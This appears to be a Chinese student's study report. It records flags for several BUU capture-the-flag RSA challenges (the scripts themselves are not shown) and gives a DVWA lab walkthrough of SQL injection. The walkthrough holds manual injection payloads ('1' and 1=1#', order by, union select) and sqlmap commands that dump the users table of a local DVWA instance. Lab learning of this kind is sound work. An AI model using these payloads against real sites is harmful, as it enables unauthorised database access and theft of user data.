


# 张心玥学习报告02-1
#学习笔记

##RSA
###Buu
####题目——rsarsa

脚本

运行结果

最后flag为：
Flag{5577446633554466577768879988}

####题目———RSA1

脚本

运行结果

对结果进行十六进制转换
6e6f784354467b57333163306d335f37305f4368316e343730776e7d

最后flag为：
Flag{W31c0m3_70_Ch1n470wn}

####题目——RSA2

脚本

运行结果

最后flag为：
flag{wow_leaking_dp_breaks_rsa?_98924743502}

##SQL注入
SQL是用于访问和处理数据库的标准的计算机语言。
显示数据库：show databases
打开数据库：use db_name
显示数据表：show tables
显示表中各字段信息：discribe table_name
显示表创建过程：show create table表名
删除数据库：drop databases 数据库名
清空数据表：delete from table_name
删除数据表：drop table table_name
数据库链接：mysql-uroot-proot
数据库退出：exit
列出当前MYSQL的相关状态信息：status

####DVWA靶场SQL注入LOW
1.手工注入
查看源代码

发现没有对id进行限制
输入 1' and 1=1#

语句发生变化，在原有语句查询完成后会判断1=1，如果判断正确才会输出
（#的作用是移除后续SQL的语句，将后面可能造成影响的语句删除）

输入 1' and 1=2#

语句发生变化，在查询完原有语句后判断1=2，判断正确才会有输出
发现输出，但是1=2为错误语句，所以存在SQL注入漏洞

判断字段数

依次输入“1' order by 1#”,” 1' order by 2”,” 1' order by 3”
从三个字段时开始报错

所以数据库只存在两列

判断回显
输入 1' union select 1,2#

查询当前数据库
输入 1' union select 1,database()#
或
输入 1' union select user(),database()#

显示当前数据库为dvwa

2.SQLmap
通过手动注入已知有数据库dvwa
所以输入 
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa --tables
查询数据库中的表

接着输入
python sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --dump
查询到
